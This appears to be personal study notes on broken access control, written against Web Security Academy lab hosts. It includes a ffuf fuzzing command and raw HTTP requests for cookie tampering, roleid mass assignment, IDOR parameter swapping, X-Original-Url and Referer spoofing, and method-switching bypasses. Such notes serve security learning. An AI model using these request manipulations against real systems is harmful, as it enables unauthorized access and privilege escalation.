 # Broken Access Control
# Introduction 
vulnerabilities arise when users can act outside of their intended permissions. This typically leads to sensitive information disclosure, unauthorized access and modification or destruction of data
## How to Find ? 
- Identify all the instances where the web app appears to be interacting with the OS 
	- URL params 
	- hidden params 
	- cookies 
- Use accounts from each privileged level 
- manipulate these params 
- use Autorize extension in burp 
	- do the request from 
		- high privileged perspective 
		- unauthenticated perspective 
		- low privileged perspective 
## How to Exploit ? 
1. check for robots file => robots.txt or robots.txt.php
1. Do some fuzzing  => some hidden panels may be revealed 
```shell
ffuf -w wordList:FUZZ -u https://0a98006503ab7fed811f716000d600e3.web-security-academy.net/FUZZ
```
2. check the source code and js files, u may find juicy files and paths 
3. manipulate the requests headers
```
Cookie: Admin=false; session=t4QBqUFykVmAxaNQHkuUESMmxVNnCUk4
```
change any sus cookies values 
```
Cookie: Admin=true; session=t4QBqUFykVmAxaNQHkuUESMmxVNnCUk4
```
4. change any data set to user via POST requests
Request =>
```
POST /my-account/change-email HTTP/2
Host: 0a31005a03f94fda8212e330005100e7.web-security-academy.net

{
"email":"wiener@admin-user.net"
}
```
Response => 
```
{
  "username": "wiener",
  "email": "wiener@admin-user.net",
  "apikey": "oFaJPhlb9gdZEYYaNNRDtTRut5DupfQl",
  "roleid": 1
}
```
try to set the roleid to 2, edit the request as follows 
Request 2 
```
POST /my-account/change-email HTTP/2
Host: 0a31005a03f94fda8212e330005100e7.web-security-academy.net

{
"email":"wiener@admin-user.net",
"roleid":2
}
```
Response 2
```
{
  "username": "wiener",
  "email": "wiener@admin-user.net",
  "apikey": "oFaJPhlb9gdZEYYaNNRDtTRut5DupfQl",
  "roleid": 2
}
```
5. Manipulate requests with Get methods - URL params
```
GET /my-account?id=uraccount HTTP/2
```
change it to 
```
GET /my-account?id=victim-account HTTP/2
```
6. If the URL params are unpredictable 
Request 
```
GET /my-account?id=029740ef-941d-4352-afab-1f12afc93f7a
```
look around for a way to leak the victims id, like showing their profile if u where friends, etc ...
7. when u try to do horizontal access, always check the 302 body 
8. check for chats with others, u may access others chats
9. use X-Original-Url Header 
```
GET /?username=carlos HTTP/2
Host: 0a710090038c3ab380b96cb600c6009e.web-security-academy.net
Cookie: session=zBHZKjCuzwnjvMxcSrARdHiOc2rggY1n 
X-Original-Url: /admin/delete
```
10. Change the Request method, it may bypass some unauthorized activities 
Request 1 
```
POST /admin-roles HTTP/2
Host: 0a2f0037032bc4018133110f003d00fd.web-security-academy.net
Cookie: session=pjy7bHAusN4suXwVHS5jIdNv8BZktSze
```
Request 2 
```
PUT/GET /admin-roles HTTP/2
Host: 0a2f0037032bc4018133110f003d00fd.web-security-academy.net
Cookie: session=attacker-session
```
12.  Multi-step process with no access control on one step => confirmation steps, etc ..
13. There may be a referral header that tells the server u r authorized
```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Cookie: session=attacker-session
Referer: https://0a52003f03645cf0826542f300eb00ce.web-security-academy.net/admin
```
